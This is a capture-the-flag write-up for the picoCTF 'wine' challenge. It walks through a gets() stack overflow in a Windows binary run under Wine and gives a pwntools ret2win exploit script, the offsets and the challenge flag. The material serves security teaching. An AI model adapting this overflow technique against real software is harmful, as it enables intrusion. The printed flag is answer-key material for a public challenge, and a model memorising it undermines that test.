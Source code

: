 # wine
> Write-up author: vreshco
## DESCRIPTION:
Challenge best paired with wine. I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using nc saturn.picoctf.net 57867
## HINT:
- Gets is dangerous. Even on windows.
## STEPS:
1. Given a 32 bit PE file.

![image](https://user-images.githubusercontent.com/70703371/224527642-e6e86e7d-d4ff-4dbd-9dc3-a7577baf8eea.png)


2. Let's analyze the source-code given.

> SOURCE-CODE

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}

```

3. Based from it we know that we can overflow the buffer of **buf** variable because of the `gets()` function.
4. With this we can control the **EIP** to return to the `win()` function which opens up a **flag.txt** file.
5. The pwn concept is simple ret2win, let's get started by finding the **EIP** offset using `winedbg`.

> WINEDBG -> sending 1024 bytes

![image](https://user-images.githubusercontent.com/70703371/224530940-5f0b997f-475a-44d3-9326-66cdf356d134.png)


![image](https://user-images.githubusercontent.com/70703371/224530971-4ab6c8be-2fc3-4003-8df6-643d1388b148.png)


6. Successfully overwrote the **EBP** and we can use the leaked **EIP** bytes to get it's offset.

> RESULT -> 140

![image](https://user-images.githubusercontent.com/70703371/224531002-0cc9e68d-d66b-464d-8a60-6e68f31113a5.png)


7. Next we need to find the address of the win function using gdb

> RESULT -> 0x401530

![image](https://user-images.githubusercontent.com/70703371/224531038-dec755dc-3199-4671-b285-476714e4199f.png)


8. Let's craft our script then using pwntools.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

sh = remote('saturn.picoctf.net', 57867)

padding = 140

context.log_level = 'debug'

p = asm('nop') * padding
p += pack(0x401530) # 0x401530 win func
sh.sendline(p)

sh.interactive()

```

9. Run the script

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224531676-563dc5e6-6e13-4e73-86e0-3fd083344c6c.png)


10. Got the flag!

## FLAG

```
picoCTF{Un_v3rr3_d3_v1n_8ab00bc8}
```

